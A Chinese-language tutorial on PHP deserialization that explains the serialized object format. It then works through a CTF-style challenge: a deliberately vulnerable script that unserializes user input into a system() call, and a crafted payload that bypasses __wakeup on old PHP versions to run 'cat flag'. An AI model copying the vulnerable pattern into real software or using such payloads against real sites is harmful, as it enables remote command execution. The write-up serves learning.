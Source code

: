 ```yaml
---
title: PHP反序列化
tags:
    - php
    - serialize
    - review
createTime: 2025/02/05 11:18:54
permalink: /security/unserialize/
---
```


## 概念

要了解`反序列化（unserialize）`，就应该先了解`序列化（serialize）`

> 序列化是将数据结构或对象转换成一种特定格式的字节序列的过程。

乍一看还是有点抽象，我们可以通过下面这个示例来大致理解一下

```php
<?php
highlight_file(__FILE__);
error_reporting(0); 
class Student {
    public $name;
    public $age;
    public $scores;

    public function __construct($name, $age, $scores) {
        $this->name = $name;
        $this->age = $age;
        $this->scores = $scores;
    }

    public function __toString() {
        return "Name: {$this->name}, Age: {$this->age}, Scores: " . implode(', ', $this->scores);
    }
}

// 创建一个 Student 对象
$student = new Student("张三", 20, [85, 90, 78]);

// 序列化对象
$serializedStudent = serialize($student);
echo "序列化后的字符串:";
echo $serializedStudent;

echo '<br>';

// 反序列化对象
$unserializedStudent = unserialize($serializedStudent);
echo "反序列化后的对象:";
echo $unserializedStudent;
?>
```


> [!tip]
> `__toString() 的作用`
>
>
> __toString( ) 是 PHP 中的一个魔术方法（Magic Method），它是 PHP 面向对象编程中的一个重要特性。__toString( ) 的作用是定义一个类在被转换为字符串时的行为。当尝试将一个对象直接用于字符串上下文（例如回显、字符串拼接等）时，PHP 会自动调用该对象的 __toString( ) 方法。（例如上述代码中的`serialize($student)`）


得到的输出结果如下

![](img/4.png)

```serialize
O:7:"Student":3:{s:4:"name";s:6:"张三";s:3:"age";i:20;s:6:"scores";a:3:{i:0;i:85;i:1;i:90;i:2;i:78;}}
```

```unserialize
Name: 张三, Age: 20, Scores: 85, 90, 78
```


分析序列化得到的字符串，它的组成大致可以这样理解：

> **1. 对象标识**  O:长度:"类名":属性数:{...}

`O`代表`Student`是一个Obejct(对象)，字符串长度为`7`，有`3`个属性：name,age,scores

> **2. 成员属性**  键类型:键长度:"键名";值类型:值...

`s`即string，`i`即integer

## 实战

```php
<?php
highlight_file(__FILE__);
error_reporting(0); 

class begin{
    public $unf01d="beginning";
    public function cmd($a){
        system($a);
    }
    public function __wakeup(){
        $this->unf01d="end";
    }
    public function __destruct(){
        $this->cmd($this->unf01d);
    }
}
$cmd=$_GET['cmd'];
unserialize($cmd);
?>
```

> [!tip]
> system( )与exec( )类似，也可以调用系统指令
>
> `__wakeup()`是一个魔术方法，在反序列化的时候会优先调用它


而我们要起到我们的目的，就必须绕开__wakeup( )

> [!warning]
> 此绕过方法只适用于部分版本的PHP
>
> PHP5 < 5.6.25 
>
> PHP7 < 7.0.10

如果序列化字符串中表示对象属性个数的值大于真实的属性个数时，wakeup()的执行会被跳过

::: code-tabs

@tab crack.php

```php
<?php
class begin {
    public $unf01d = ""; //目标指令
}

$payload = serialize(new begin());
echo $payload;
?>

```
:::

由此构造出payload,将`1`改为`2`

![](img/7.png)

```payload
O:5:"begin":2:{s:6:"unf01d";s:8:"cat flag";}
```

上传就可以得到flag

![](img/6.png)


## 总结

之后还将加深对魔术方法调用顺序的理解，以及学习其他绕过__wakeup()的方法

